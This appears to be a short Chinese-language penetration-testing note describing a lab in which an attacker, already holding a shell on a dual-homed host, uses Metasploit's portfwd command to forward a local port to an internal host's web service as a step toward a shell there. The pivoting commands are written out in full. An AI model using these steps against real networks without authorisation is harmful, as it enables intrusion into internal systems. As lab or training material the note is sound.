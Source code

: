 已知黑客主机C的IP：192.168.0.115
公网主机A unbantu：192.168.0.149 ，其内网IP：10.10.10.132，有一个web服务/test.php
内网主机B：10.10.10.128 ，有一个web服务/test.php
已知已经获取了A的shell，现在要渗透获取B的shell。

C主机使用msf上线A主机后，再在A主机运行后门隧道程序。
msf>
portfwd flush //刷新
portfwd add -L 192.168.0.115 -l 2020 -p 80 -r 10.10.10.128 //本机端口2020映射到内网主机10.10.10.128的80端口
